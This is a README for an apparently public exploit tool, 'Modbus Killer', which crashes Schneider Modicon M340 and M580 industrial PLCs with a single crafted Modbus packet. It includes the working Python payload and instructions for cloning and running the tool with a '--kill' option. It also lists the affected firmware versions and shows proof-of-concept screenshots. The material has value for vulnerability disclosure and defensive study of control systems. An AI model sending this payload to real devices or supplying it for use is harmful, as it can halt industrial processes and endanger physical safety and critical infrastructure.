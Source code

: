 #  [Tool] Modbus Killer
## [Schneider] Dos Modicon via Modbus Injection

PLC Modicon line ("m340" & "m580") suffer a denial of services upon receiving a simple request to the "modbus" protocol.


	[*] Exploit Title:       "Dos Modicon via Modbus Injection" 
	[*] CVE:                 2018-???? <-- soon !!!
	[*] CVSS Base Score v3:  8.6 / 10
	[*] CVSS Vector String:  AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H  
	[*] Date:                2/01/2018
	[*] Exploit Author:      Fernandez Ezequiel ( @capitan_alfa ) && Bertin Jose ( @bertinjoseb )
	[*] Vendor:              Schneider Electric
	[*] devices(tested):     PLC Modicon m340 (v2.0 > v2.8) & modicom m580


![m340](screenshot/m340.png) ![m580](screenshot/m580.jpg)

### Exploit:

```
	import socket 

	client = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
	client.connect(("192.168.0.101",502)) 
	client.send( "\x44\x62\x00\x00\x00\x06\x00\x5a\x00\x20\x00\x00") 
	client.close()

```

***

## tested in:
	
	[+] m430
	BMX P34 2020 v2.0 (TELEMECANIQUE)         
	BMX P34 2020 v2.1                          
	BMX P34 2020 v2.2                          
	...                                        --
	BMX P34 2020 v2.4                          
	BMX P34 2020 v2.5                          
	BMX P34 2020 v2.6                          
	BMX P34 2020 v2.7                           
	BMX P34 2020 v2.8                          

	-------------------------------
	[+] m580

	BME P58 2020 v01.04
	BME P58 2020 v02.20
	BME P58 4040 v02.20
	BME P58 4040 v02.12


# TOOL: "Modbus Killer"

## Quick start

	usr@pwn:~$ git clone https://github.com/ezelf/modbusKiller.git
	usr@pwn:~$ cd modbusKiller

## help

	usr@pwn:~/$ python mdKiller.py --help

	usage: mdKiller.py [-h] [-v] [--sid SLAVEID] --host HOST [--port PORT]
                   [--check] [--kill]

	[+] DOS Modicon via Modbus Injection. ( CVE: 2018-???? )

	optional arguments:
	  -h, --help     show this help message and exit
	  -v, --version  show program's version number and exit
	  --sid SLAVEID  Slave ID (default 00)
	  --host HOST    Host
	  --port PORT    Port (default 502)
	  --check        Show device info
	  --kill         Check availability

	[+] Demo: mdKiller.py --sid 00 --host <target> [--check|--kill ]

***

## POCs:

[+] Poc device VULN:

	[*] CHECK

![m340](screenshot/1_check.png) 	
	

	[*] KILL

![m340_kill](screenshot/2_kill.png)


	[*] RE-CHECK

![m340_rc](screenshot/3_reCheck.png) 	



[+] Poc device NO VULN:

	[*] CHECK

![m340_ck](screenshot/noVuln/1_check_a.png) 	
	

	[*] KILL

![m340_kill](screenshot/noVuln/2_kill_a.png) 	

